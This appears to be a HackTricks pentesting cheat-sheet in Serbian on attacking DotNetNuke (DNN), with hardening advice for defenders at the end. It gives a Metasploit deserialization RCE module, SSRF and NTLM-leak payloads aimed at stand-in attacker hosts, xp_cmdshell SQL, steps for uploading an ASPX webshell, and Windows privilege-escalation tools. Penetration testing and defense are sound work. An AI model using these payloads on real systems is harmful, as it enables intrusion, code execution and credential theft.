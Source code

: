 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

Ako se prijavite kao **administrator** u DNN, lako je dobiti **RCE**, međutim, u poslednjih nekoliko godina objavljeno je nekoliko *neautentifikovanih* i *post-auth* tehnika. Sledeća cheat-sheet sakuplja najkorisnije primitivne tehnike za ofanzivni i defanzivni rad.

---
## Verzija i Okruženje

* Proverite *X-DNN* HTTP odgovorni header – obično otkriva tačnu verziju platforme.
* Čarobnjak za instalaciju otkriva verziju u `/Install/Install.aspx?mode=install` (dostupno na vrlo starim instalacijama).
* `/API/PersonaBar/GetStatus` (9.x) vraća JSON blob koji sadrži `"dnnVersion"` za korisnike sa niskim privilegijama.
* Tipični kolačići koje ćete videti na aktivnoj instanci:
* `.DOTNETNUKE` – ASP.NET forms authentication ticket.
* `DNNPersonalization` – sadrži XML/serijalizovane podatke o korisničkom profilu (stare verzije – vidi RCE ispod).

---
## Neautentifikovana Eksploatacija

### 1. Deserializacija Kolačića RCE  (CVE-2017-9822 & follow-ups)
*Pogođene verzije ≤ 9.3.0-RC*

`DNNPersonalization` se deserializuje pri svakoj zahtev kada je uključen ugrađeni 404 handler. Tako kreirani XML može dovesti do proizvoljnih gadget lanaca i izvršavanja koda.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
Modul automatski bira pravi put za zakrpljene, ali još uvek ranjive verzije (CVE-2018-15811/15812/18325/18326). Eksploatacija funkcioniše **bez autentifikacije** na 7.x–9.1.x i sa *verifikovanim* nalozima sa niskim privilegijama na 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Pogođene verzije < 9.13.8  –  Zakrpa objavljena aprila 2025*

Zaobilaženje starijeg `DnnImageHandler` rešenja omogućava napadaču da natera server da izda **arbitrarne GET zahteve** (polu-slepi SSRF). Praktični uticaji:

* Interni port sken / otkrivanje metapodataka u cloud implementacijama.
* Dostupnost hostova koji su inače zaštićeni od Interneta.

Dokaz koncepta (zameni `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
Zahtev se pokreće u pozadini; pratite svog slušatelja za povratne pozive.

### 3. Izloženost NTLM heša putem UNC preusmeravanja  (CVE-2025-52488)
*Zahvaćene verzije 6.0.0 – 9.x (< 10.0.1)*

Specijalno oblikovan sadržaj može naterati DNN da pokuša da preuzme resurs koristeći **UNC put** kao što je `\\attacker\share\img.png`. Windows će rado izvršiti NTLM pregovaranje, otkrivajući heševe server-računa napadaču. Ažurirajte na **10.0.1** ili onemogućite odlazni SMB na vatrozidu.

### 4. Zaobilaženje IP filtera  (CVE-2025-52487)
Ako administratori oslanjaju na *Host/IP filtere* za zaštitu admin portala, imajte na umu da se verzije pre **10.0.1** mogu zaobići manipulacijom `X-Forwarded-For` u scenariju obrnute proxy.

---
## Post-autentifikacija do RCE

### Putem SQL konzole
Pod **`Settings → SQL`** ugrađeni prozor za upite omogućava izvršavanje protiv baze podataka sajta. Na Microsoft SQL Server-u možete omogućiti **`xp_cmdshell`** i pokrenuti komande:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### Putem ASPX webshell upload
1. Idite na **`Settings → Security → More → More Security Settings`**.
2. Dodajte `aspx` (ili `asp`) u **Allowable File Extensions** i **Save**.
3. Idite na **`/admin/file-management`** i otpremite `shell.aspx`.
4. Aktivirajte ga na **`/Portals/0/shell.aspx`**.

---
## Eskalacija privilegija na Windows
Kada se postigne izvršenje koda kao **IIS AppPool\<Site>**, primenjuju se uobičajene tehnike eskalacije privilegija na Windows-u. Ako je sistem ranjiv, možete iskoristiti:

* **PrintSpoofer** / **SpoolFool** za zloupotrebu *SeImpersonatePrivilege*.
* **Juicy/Sharp Potatoes** za bekstvo iz *Service Accounts*.

---
## Preporuke za jačanje (Plavi tim)

* **Ažurirajte** na najmanje **9.13.9** (popravlja SSRF zaobilaženje) ili po mogućstvu **10.0.1** (IP filter i NTLM problemi).
* Uklonite preostale **`InstallWizard.aspx*`** datoteke nakon instalacije.
* Onemogućite izlazni SMB (portovi 445/139).
* Sprovodite jake *Host Filters* na ivici proksija umesto unutar DNN.
* Blokirajte pristup `/API/RemoteContentProxy` ako se ne koristi.

## Reference

* Metasploit `dnn_cookie_deserialization_rce` modul dokumentacija – praktični detalji o neautentifikovanom RCE (GitHub).
* GitHub Security Advisory GHSA-3f7v-qx94-666m – informacije o SSRF zaobilaženju i zakrpi za 2025. godinu.
{{#include ../../banners/hacktricks-training.md}}
